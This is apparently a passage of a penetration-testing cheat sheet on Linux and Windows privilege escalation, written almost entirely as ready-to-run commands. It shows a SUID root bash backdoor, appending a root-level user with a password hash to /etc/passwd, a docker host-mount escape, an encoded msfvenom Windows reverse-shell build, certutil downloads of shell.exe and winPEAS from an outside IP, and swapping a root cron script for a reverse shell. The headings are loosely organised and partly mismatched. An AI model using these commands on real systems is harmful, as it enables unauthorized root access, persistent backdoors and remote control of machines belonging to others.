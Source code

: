 ```bash 
#!/bin/dash
cp /bin/bash backdoor
chown root:root backdoor
chmod u+s backdoor
```

## suid in cp
```bash

root@kali:~# openssl passwd -1 -salt testuser test123
$1$testuser$ufvpYjLWZk.6cAs3/d3pN0

append to passwd file

testuser:$1$testuser$ufvpYjLWZk.6cAs3/d3pN0:0:0:root:/root:/bin/bash

bash-4.2$ su testuser
Password test123
```

### /etc/passwd world writable
* Simply appending in /etc/passwd and making the UID 0 will provide you the root access to system. 
* Generate the password:  perl -le 'print crypt("foo", "aa")'
to set the password to foo.
* daya:aaKNIEDOaueR6:0:0:daya:/tmp/daya:/bin/bash
### Useful Commands:

## Docker Privilege Escalations
https://medium.com/@Affix/privilege-escallation-with-docker-56dc682a6e17
```bash
Privilege Escalation:
Docker Vulnerabilities: docker run -v /:/mnt --rm -it alpine chroot /mnt sh


Getting RID of Restricted Shell:
ssh alfred@10.11.1.101 -t "bash —noprofile"
```
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=[your_ip] LPORT=[listening_port] -f exe -o [shell_name.exe]

certutil.exe -urlcache -split -f http://10.2.26.129/winPEAS-x64.exe winPEAS-x64.exe

certutil.exe -urlcache -split -f http://10.2.26.129/shell.exe shell.exe


### Cron job running by root.
Eg. * * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

In this case you can simply replace the /var/www/laravel/artisan file with one liner php reverse shell.
